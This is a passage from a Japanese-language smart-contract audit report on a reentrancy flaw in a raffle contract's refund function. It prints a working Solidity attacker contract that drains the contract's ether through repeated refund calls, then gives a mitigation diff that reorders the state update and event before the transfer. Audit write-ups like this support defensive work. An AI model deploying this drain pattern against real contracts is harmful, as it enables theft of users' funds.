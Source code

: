 
\pagebreak

攻撃者コントラクト：

```javascript
contract AttackReentrant {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}


```

**推奨される軽減策:**<br />

`refund`関数におけるイベントの発行場所と状態変更の場所を変更して、リエントランシー攻撃を避けます。
\pagebreak

```diff
    function refund(uint256 playerIndex) public {
        // @audit この関数にはMEV攻撃も含まれています、トランザクションのフロントランニング
        address playerAddress = players[playerIndex];
        require(
            playerAddress == msg.sender,
            "PuppyRaffle: 返金はプレイヤーのみ可能"
        );
        require(
            playerAddress != address(0),
            "PuppyRaffle: プレイヤーは既に返金されているか、アクティブではありません"
        );

+        // @audit リエントランシー攻撃を避けるために、イベントと状態変更の場所を変更
+       emit RaffleRefunded(playerAddress);
+       players[playerIndex] = address(0);

        payable(msg.sender).sendValue(entranceFee);

-        players[playerIndex] = address(0);
-        emit RaffleRefunded(playerAddress);
    }


```
